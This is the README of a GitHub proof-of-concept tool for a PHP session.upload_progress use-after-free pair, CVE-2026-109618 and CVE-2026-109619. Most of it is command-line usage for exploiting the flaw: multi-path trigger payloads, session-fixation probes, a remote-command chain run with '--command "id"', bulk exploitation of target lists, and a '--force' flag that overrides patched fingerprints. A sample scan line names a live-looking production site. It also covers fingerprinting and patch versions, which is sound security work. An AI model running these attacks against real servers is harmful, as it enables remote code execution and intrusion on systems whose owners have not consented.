

# php2shell — CVE-2026-109618 / CVE-2026-109619

Python PoC for the **session.upload_progress** multipart timing issue (research name: **php2shell**). PHP core RCE pair (CVSS 9.2 vendor rating); this repo provides **passive fingerprinting (`check`)** and **active trigger / primitive tests (`exploit`)**. Banner match alone does not mean remote RCE — that needs a lab (`--monitor`) or build-specific **619** offsets.

**Authorized testing only.**

---

## GitHub About (Description)

```
PoC for CVE-2026-109618 / CVE-2026-109619 (php2shell): PHP session.upload_progress UAF. check = GET fingerprint + bulk JSONL; exploit = smart 618 (multi-path trigger) or 619 with --call. Stdlib only.
```

Topics: `cve`, `cve-2026-109618`, `cve-2026-109619`, `php2shell`, `php`, `security-research`, `poc`

---

## Requirements

- Python 3.8+
- Stdlib only (no `pip install`)

```bash
python -m unittest discover -s tests -v
```

---

## Quick start

```bash
# Fingerprint one URL
python poc.py check https://example.com/index.php

# Bulk inventory (GET only)
python poc.py check -f targets.txt -o results.jsonl --workers 16

# Lab — prove the UAF path (0x4148 docker, port 19268)
python poc.py exploit http://127.0.0.1:19268/index.php --monitor --stall 1.5

# Internet target — smart 618 (default)
python poc.py exploit https://example.com/ -o one-host.json
```

Windows **cmd.exe**: colors are auto-disabled if VT mode is unavailable; use `--no-color` explicitly if you still see `←[96m` garbage. Bulk lists with 25+ lines use **compact** one-line output.

---

## Files

| Path | Role |
|------|------|
| `poc.py` | CLI |
| `php2shell_core.py` | HTTP, multipart builders, fingerprint, 618/619 bodies |
| `php2shell_exploit.py` | Smart 618 (paths × variants, scoring) |
| `EXPLOIT.md` | Verdict glossary + research pointers |
| `targets.example.txt` | Example `-f` input |
| `SECURITY.md` / `GITHUB.md` | Scope + publish checklist |

---

## CLI

```text
python poc.py [check | exploit | build] [URL] [options]
```

| Mode | Default | Sends |
|------|---------|--------|
| `check` | no | GET only |
| `exploit` | **yes** | POST multipart |
| `build` | no | Local file only |

Common flags: `-f` list file, `-o` output, `--json`, `-q`, `--timeout 10`, `--workers 8`, `-f` domains (one per line or CSV `domain` column).

---

## Check mode

Passive exposure scan. **Does not** send the stall exploit or prove UAF.

### Single host

```bash
python poc.py check https://example.com/index.php
python poc.py check https://example.com/index.php --json
```

Reads `X-Powered-By` and up to ~8 KB of body. Parses only strings that look like **`PHP/x.y.z`** banners (avoids mistaking WordPress `6.8.11` for PHP).

### Bulk

```bash
python poc.py check -f domains.txt -o results.jsonl --workers 16
```

- `example.com` → `https://example.com/`
- CSV header `domain` is skipped
- **≥25 targets:** compact lines (below)
- `-o` append per host (interrupt-safe)
- Final **Summary:** counts by status



Example line: `[4/1790] [branch_only] https://yoplait.fr PHP 8.4.?`

### JSON `status` field

| Status | Meaning |
|--------|---------|
| `likely_vulnerable` | Full patch level in banner, below emergency fix for that branch |
| `branch_only` | Banner like `PHP/8.4` only — patch unknown, **not** counted as vulnerable |
| `patched` | At/above 8.2.35, 8.3.36, 8.4.27, 8.5.12 |
| `eol_or_unknown` | EOL branch (7.x, etc.) or unmapped |
| `no_php_version` | No banner (CDN, `expose_php=Off`, …) |
| `unreachable` | No usable HTTP response |

### Exit codes (check)

| Code | Meaning |
|------|---------|
| 0 | Done; no `likely_vulnerable` |
| 1 | All unreachable / empty input |
| 2 | One or more `likely_vulnerable` |

### Limits

CDN hides banners → `no_php_version` is not “safe”. Distro backports may lie on banner until you check `php -v` / package changelog on the box. Remote `session.upload_progress.enabled` is not visible.

---

## Exploit mode

Sends **multipart** traffic with `PHP_SESSION_UPLOAD_PROGRESS` (and related fields). Default chain: **618 smart**.

### Lab (strong proof)

[0x4148 lab](https://github.com/0x4148/CVE-2026-109618-php2shell-lab):

```bash
python poc.py exploit http://127.0.0.1:19268/index.php --monitor --stall 1.5
```

`exploit_status=armed` when `check_progress.php` shows `upload_progress_*` during the stall.

### Smart 618 (default)

Without `--no-smart`:

1. Up to **4 paths** — your URL path, `/index.php`, `/`, `/wp-login.php`, … (WP HTML adds paths).
2. Per path, up to **3 variants:**
   - **stall** — split upload, pause > ~1 s (`min_freq`)
   - **micro** — ~258 B single POST (lab/writeup style)
   - **inject** — `PHPSESSID` in body, no Cookie (fixation probe)
3. Best attempt wins → `exploit_status`.

```bash
python poc.py exploit https://target.example/
python poc.py exploit https://target.example/ -o report.json --json
```

### Verdicts (`exploit_status`)

| Verdict | success | Notes |
|---------|---------|-------|
| `armed` | yes | Lab monitor hit |
| `session_fixation` | yes | Set-Cookie echoed our SID — primitive, not shell |
| `upload_accepted` | no | HTTP 200 class; weak signal only |
| `crash_signal` | no* | 502/503/empty (* `--force` → exit 0) |
| `inconclusive` | no | Typical on random production sites |
| `skipped_patched` | no | Use `--force` to run anyway |
| `rce_hit` | yes | **619** + valid `--call` + marker in body |

Real targets often end at **`upload_accepted`** or **`inconclusive`** without a lab endpoint.

### Single-path / legacy

```bash
python poc.py exploit https://target.example/index.php --no-smart --variant stall --stall 1.5
```

### Chain 619 (offsets required)

Not portable. Need `zend_call_function` for your exact binary ([Zer061](https://github.com/Zer061/CVE-2026-109618)):

```bash
python poc.py exploit https://127.0.0.1/index.php --chain 619 \
  --call 0xYOUR_ADDR --command "id" --expect "uid="
```

### Bulk exploit

```bash
python poc.py exploit -f small.txt --workers 2 --delay 1 -o exploit.jsonl
```

Many POSTs per host in smart mode — keep lists small; use **check** for wide inventory.

### Flags (exploit)

| Flag | Effect |
|------|--------|
| `--no-smart` | One path, stall only |
| `--variant stall,micro` | Variant subset |
| `--probe-path /x.php` | Extra path (repeatable) |
| `--max-paths N` | Default 4 |
| `--skip-fingerprint` | No pre-GET |
| `--force` | Ignore patched fingerprint |
| `--expect TEXT` | Body substring = success |
| `--progress-url /check_progress.php` | Monitor path override |

Output flags: `--compact` (bulk check), `--no-color`, `--color` (Windows VT).

---

## Build mode

```bash
python poc.py build --chain trigger -o body.bin
python poc.py build --chain 619 --call 0x... -o body-619.bin
```

No network — debug or replay through Burp.

---

## Mitigation

- Patch: 8.2.35, 8.3.36, 8.4.27, 8.5.12+ on supported branches.
- `session.upload_progress.enabled = Off` in `php.ini` / FPM pool — partial; **patch remains primary**.

---

## References

- [0x4148 php2shell lab](https://github.com/0x4148/CVE-2026-109618-php2shell-lab)
- [Zer061 validation bundle](https://github.com/Zer061/CVE-2026-109618)
- [ikow php2shell-poc](https://github.com/ikow/php2shell-poc)
- [EXPLOIT.md](EXPLOIT.md) · [SECURITY.md](SECURITY.md) · [GITHUB.md](GITHUB.md)

## Credits

Trigger/monitor from Ahmed Sultan (0x4148); 619 forge from Andrew Dorman / Zer061. Independent packaging.
